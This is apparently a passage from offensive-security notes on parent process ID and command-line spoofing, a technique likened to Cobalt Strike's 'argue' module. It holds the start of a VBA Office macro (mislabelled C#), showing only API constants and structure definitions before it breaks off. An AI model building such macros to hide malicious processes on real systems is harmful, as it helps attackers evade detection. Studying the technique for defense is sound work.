 ## Parent Process ID Spoofing

With this technique it is possible to specify the PID under which our process will be launched as well as process commandline arguments can be spoofed. Note that this is the same technique Cobalt Strike uses under the hood in its `argue` module:

```csharp
' code from https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/
' Windows API constants

Const EXTENDED_STARTUPINFO_PRESENT = &H80000
Const HEAP_ZERO_MEMORY = &H8&
Const SW_HIDE = &H0&
Const PROCESS_ALL_ACCESS = &H1F0FFF
Const PROC_THREAD_ATTRIBUTE_PARENT_PROCESS = &H20000
Const TH32CS_SNAPPROCESS = &H2&
Const MAX_PATH = 260


'''''''''''''''''''''''''''''''''''''''''''''''''''
''''''''''''''' Data types ''''''''''''''''''''''''
'''''''''''''''''''''''''''''''''''''''''''''''''''
 


Private Type PROCESS_INFORMATION
    hProcess As LongPtr
    hThread As LongPtr
    dwProcessId As Long
    dwThreadId As Long
End Type


Private Type STARTUP_INFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Byte
    hStdInput As LongPtr
    hStdOutput As LongPtr
    hStdError As LongPtr
End Type
 
Private Type STARTUPINFOEX
    STARTUPINFO As STARTUP_INFO
    lpAttributelist As LongPtr
End Type

' from https://codes-sources.commentcamarche.net/source/42365-affinite-des-processus-et-des-threads
Private Type PROCESS_BASIC_INFORMATION
    ExitStatus      As Long
    PEBBaseAddress  As Long
```
